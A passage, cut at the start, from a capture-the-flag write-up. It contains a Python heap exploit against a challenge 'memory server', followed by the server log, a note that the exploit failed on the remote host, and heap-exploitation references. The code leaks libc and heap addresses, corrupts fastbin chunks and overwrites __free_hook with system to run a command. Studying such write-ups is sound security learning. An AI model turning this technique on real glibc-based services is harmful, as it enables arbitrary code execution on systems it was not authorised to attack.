        log.info("Create a chunk in 0x30 fastbin")
        r = conn()
        c2 = conn()
        c1 = conn()
        ram_id = point_at(r, 0x10530, 0x60)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x60, 
            b"\x00"*8 + 
            0x21.to_bytes(8, "little") +
            b"\x00"*0x10 + 
            0x20.to_bytes(8, "little") +
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()
        c2.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(126)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10530-0x646, 0x200)
        # ram_id = point_at(r, 0x10530-0x646, 0x1)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        print(leak)

        log.info("Try to go to __free_hook")
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x30, 
            b"\x00"*0x24 +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x200, 
            b"\x00"*0x1f4 +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x200, 
            b"\x00"*0x1f4 +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200 + 0x200).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(
            r, 
            0, 
            0x1e8, 
            b"\x00"*0x1dc +
            b"\x00"*2 +
            0x200.to_bytes(2, "little") +
            0x200.to_bytes(2, "little") +
            b"\x00"*6
        )
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x20, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*8 +
            (libc.symbols["__free_hook"] - 0x624 + 0x30 + 0x200 + 0x200 + 0x1e8).to_bytes(8, "little")
        )
        send_4_RAM_encrypt(r, 0, 0x8, libc.symbols["system"].to_bytes(8, "little"))
        
        log.info("Will exploit...")
        payload = b"/bin/ls"
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x200, 
            b"\x00"*0x150 + 
            payload + b"\x00"*(0xb0-len(payload))
        )
        clients[1].close()
        input(">>>><<<<")


    def leak_libc(self):
        c1 = conn()
        c2 = conn()
        
        r = conn()
        ram_id = point_at(r, 0x10410, 0x20)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x141.to_bytes(8, "little"))
        c1.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        c2.close()
        return int.from_bytes(leak[16:24], "little") - libc.symbols["__malloc_hook"] - 112

    def leak_heap(self):
        c1 = conn()
        c2 = conn()

        r = conn()
        ram_id = point_at(c1, 0x10530, 0x40)
        send_4_RAM_encrypt(
            c1, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
            0x21.to_bytes(8, "little") + 
            b"\x00"*8 +
            0x6.to_bytes(8, "little") + 
            0x20.to_bytes(8, "little") + 
            0x21.to_bytes(8, "little") +
            b"\x00"*8 +
            0x5.to_bytes(8, "little")
        )
        c1.close()
        c2.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        return int.from_bytes(leak[0x30:0x38], "little") - 0x10690


def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

```bash
aigle@aigle:~/c/e/p/centralized_memory:[0]→ ./GS_memory_server_patched                   (Fri Oct 27 17:40:07 CEST 2023)
[*] Memory server started !
[*] New client connected
[*] New client connected
[*] New client connected
[*] Client connection closed
[*] Client connection closed
[*] Client connection closed
[*] New client connected
[*] Client connection closed
[*] New client connected
[*] New client connected
[*] New client connected
[*] Client connection closed
[*] Client connection closed
[*] Client connection closed
[*] New client connected
[*] Client connection closed
[*] New client connected
[*] New client connected
[*] New client connected
[*] Client connection closed
[*] Client connection closed
[*] Client connection closed
[*] New client connected
[*] Client connection closed
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] New client connected
[*] Client connection closed
Dockerfile        GS_memory_server_patched  debug.gdb  ld-2.31.so  pwn.md    sym
GS_memory_server  d.py                      docs       libc.so.6   solve.py
```

## Why it does not works on remote

As you saw, the exploit is highly linked to the number of cores of the server. With 16 cores, the exploit works because the `Client` structs are not too numerous to fulfill the main heap. On the server, they had 48 cores...Too much for me. 

## Conclusion

It was my first time I really did pwn : too much cool !! I will improve my skills, and next time I will flag !

## Bibliography
- https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk
- https://stackoverflow.com/questions/21534925/malloc-chunk-content
- https://stackoverflow.com/questions/14897157/what-does-corrupted-double-linked-list-mean
- https://ir0nstone.gitbook.io/notes/types/heap/unlink-exploit
- https://github.com/ir0nstone/pwn-notes/tree/master/types/heap
- https://www.bordergate.co.uk/ubuntu-20-04-heap-exploitation/
- https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/

</div>
